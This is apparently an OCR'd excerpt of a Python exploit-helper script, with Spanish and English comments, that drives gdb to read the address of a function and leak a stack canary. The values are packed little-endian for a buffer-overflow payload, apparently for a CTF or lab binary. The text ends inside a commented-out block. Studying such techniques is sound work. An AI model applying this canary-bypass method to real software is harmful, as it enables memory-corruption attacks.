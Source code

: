 ```python

    # Extracting address from factor1() function
    gdb_process.expect("(gdb)")
    gdb_process.sendline("p factor1")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor1 = gdb_process.before.decode('utf-8')
    match = re.search(r'0x[0-9a-f]+', address_factor1)
    if match:
       address_factor1_str = match.group(0)  # Extraer la dirección en formato hexadecimal
       address_factor1_int = int(address_factor1_str, 16)
       address_factor1_le = p64(address_factor1_int) # direccion de factor1 en formato little-endian lista para el payload
       gdb_process.sendline(" ") # prepara gdb para recibir el siguiente comando!
    else:
       print("No se pudo extraer la dirección de factor1().")
       exit(1)

    # We extract the memory address that will allow us to create a breakpoint to capture the canary already loaded in the stack.
    gdb_process.expect("(gdb)")
    gdb_process.sendline("disas factor2")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor2 = gdb_process.before.decode('utf-8')
    lines = address_factor2.splitlines()
    memory_addresses = [line.split()[0] for line in lines if '<+' in line]
    if len(memory_addresses) >= 7:
       seventh_memory_address = memory_addresses[6]
       gdb_process.sendline(" ")
       gdb_process.expect("(gdb)")
       gdb_process.sendline(f"break *{seventh_memory_address}")
       gdb_process.expect("(gdb)")
       gdb_process.sendline("continue")
    else:
       print("No hay suficientes direcciones de memoria en la salida")

    # we extract the canary
    gdb_process.expect("(gdb)")
    gdb_process.sendline("x/1gx $rbp-0x8")
    gdb_process.expect_exact("(gdb)", timeout=10)
    output_canary = gdb_process.before.decode('utf-8')
    canary_value = output_canary.split(':')[1].strip().split()[0]
    output_canary_int = int(canary_value, 16)
    output_canary_le = struct.pack('<Q', output_canary_int) # canary listo en formato little-endian para el payload
    gdb_process.sendline(" ")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("continue")

#    test code
#    gdb_process.expect("(gdb)")
#    gdb_process.sendline("disas factor2")
#    gdb_process.expect_exact("(gdb)", timeout=10)
#    address_breakpoint = gdb_process.before.decode('utf-8')
#    lines = address_breakpoint.splitlines()
#    memory_addresses_breakpoint = [line.split()[0] for line in lines if '<+' in line]
#    if len(memory_addresses_breakpoint) >= 20:
#       memory_address_bp = memory_addresses_breakpoint[19]
#       gdb_process.sendline(" ")
#       gdb_process.expect("(gdb)")
#       gdb_process.sendline(f"break *{memory_address_bp}")
#       gdb_process.expect("(gdb)")
#       gdb_process.sendline("continue")
#    else:
```